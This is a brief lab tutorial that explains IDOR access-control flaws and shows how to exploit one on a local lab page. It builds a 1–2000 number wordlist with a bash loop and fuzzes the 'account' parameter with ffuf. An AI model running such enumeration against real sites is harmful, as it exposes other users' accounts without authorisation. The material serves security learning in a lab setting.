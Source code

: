 ## **Overview**

**IDOR** stands for Insecure Direct Object Reference
- An access control issue
- Request particular resource with an object ID
- View dashboard or pages of other user


## **Exploitation**

- Website as an object ID parameter where we can test to see if the vulnerability exists

![](https://i.imgur.com/kQIIRgV.png)


- For sure it exists let fuzz for all user endpoint, try creating a wordlist of all numbers from 1-2000, with this bash one liner

```bash
$ for i in `seq 1 2000`; do echo $i ; done > num.txt
```

- Now use the following `ffuf` syntax to fuzz

```bash
# ffuf -u "http://localhost/labs/e0x02.php?account=FUZZ" -w num.txt
```


